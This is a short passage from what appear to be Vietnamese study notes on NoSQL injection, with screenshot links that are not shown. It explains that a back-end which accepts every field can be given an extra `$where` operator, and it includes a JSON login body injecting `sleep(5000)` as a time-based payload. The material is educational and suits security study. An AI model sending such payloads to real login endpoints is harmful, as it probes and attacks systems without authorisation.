 Nếu **True** 

![Untitled](NoSQL%20injection%20aba554fd712a4b99ab64cb22e001ea2b/Untitled%2011.png)

Trường hợp back-end nhận tất cả giá trị vào ⇒  có thể injection thêm `$where` 

![Untitled](NoSQL%20injection%20aba554fd712a4b99ab64cb22e001ea2b/Untitled%2012.png)

Thì lúc này mình có thể injetion thêm `$where` 

```jsx
  	{
    "username":"alice",
    "password":"password123",
    "$where":"sleep(5000)"
    }
```